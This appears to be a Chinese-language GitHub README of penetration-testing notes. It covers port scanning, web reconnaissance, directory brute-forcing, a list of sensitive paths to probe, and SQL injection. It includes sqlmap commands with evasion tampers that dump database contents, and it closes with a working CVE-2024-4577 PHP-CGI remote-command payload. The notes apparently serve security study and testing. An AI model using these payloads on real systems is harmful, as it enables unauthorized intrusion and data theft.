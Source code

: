 # Hitmap-ver.1

## 掃描、資訊蒐集

### 工具
  - rustscan
    -  可快速掃出目標開了哪些 Port
    -  Kali 上面沒有，亦無法直接 apt install
    -  安裝 Step
        - Step 1. 複製網址到Kali的瀏覽器進行下載
            ```sh
            https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
            ```
        - Step 2. 開終端機
            ```sh
            cd Downloads
            ls
            ```
        - Step 3. 把下載的檔案開啟權限
            ```sh
            sudo chmod +x rustscan_2.0.1_amd64.deb
            ```
        - Step 4. 安裝他的套件
            ```sh
            sudo dpkg -i rustscan_2.0.1_amd64.deb
            ```
        - Step 5. 完成安裝 or 出現報錯
          - 沒報錯跳過這步 
            ```sh
            sudo apt update
            sudo apt upgrade
            ```
    - **使用方法**
      ```zsh
      rustscan -a ip or domain
      ```
      ![image](https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/img/rustscan1.png)
      
  - nmap
    - **使用方法**
      - 作業系統、服務版本
      ```sh
       nmap -A ip or domain
      ```
      - 指定port
      ```sh
       nmap -A -p22,80,1000 ip
      ```
      - 很多...未來待補
        
  - nuclei
    -  弱掃工具（效果待確）
    -  Kali 上面沒有，可直接 sudo apt install nuclei
    -  **使用方法**
      ```sh
      nuclei -u url 
      ```
  - Wappalyzer（Chrome插件）
    -  可以看到網站是用那些框架、套件、部分版本
  - DotGit（Chrome插件）
    -  可以偵測到有沒有.git洩漏
    -  有的話，可以透過 Kali 安裝 Githack 來查看
    -  安裝
       ```sh
       git clone https://github.com/lijiejie/GitHack.git
       ```
    -  **使用方法**
      ```sh
      python Githack.py URL/.git
      ```
## 目錄爆破

### 工具
  - dirsearch
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install dirsearch
      ```
    - **使用方法**
      ```sh
       dirsearch -u "url"
      ```
  - gobuster
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install gobuster
      ```
    - **使用方法**
      - 待補
### 不該出現的頁面
  - .env
  - phpinfo
  - .git
  - CKfinder
  - cgi-bin
  - upload.php（進去看有沒有可以try的點）
  - login.php（進去看有沒有可以try的點）
  - .svn
  - etc..
  - 感覺奇怪的都去看

## Injection
### CRLF injection
  - [筆記](https://www.notion.so/CRLF-Injection-1b9997876c1380e4bc7cccad27ecd62f?pvs=4)
### SQL injection
  - [筆記](https://www.notion.so/SQL-Injection-1ba997876c138098bed3c44d005558b3?pvs=4)
  - 最最基本檢測方式
    - 在參數後輸入'進行測試，出現報錯、500error，基本上可以直接用SQLmap進行確認了
    - 利用不同編碼bypass
    - 'AND1=1，可測錯誤注入、盲注
  - SQLmap
    - **指令**
      ```sh
      #可以dump出所有資料庫名稱
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash --dbs
      #可以dump某一資料庫的資料表
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 --tables
      #可以dump出某一資料庫、資料表的欄位
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 --columns
      #可以dump出某一資料庫、資料表的欄位內容
      sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 -C c欄,c欄 --dump
      #其他參數
      --delay 1（延遲一秒）、--level 1~5、--risk 1~5（更多注入手段會更久）
      ```
  ### XSS
  ## CVE 2024-4577
  - 此弱點影響安裝於 Windows 作業系統上所有的 PHP 版本
    - PHP 8.3 < 8.3.8
    - PHP 8.2 < 8.2.20
    - PHP 8.1 < 8.1.29
  - 常見之 Apache HTTP Server 加上 PHP 組合
  - 所有版本的 XAMPP for Windows 安裝也預設受此弱點影響
  - **Payload**
    ```sh
    curl.exe -o - "URL/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input" --data '<?=`whoami & dir`;die();?>'
    ```


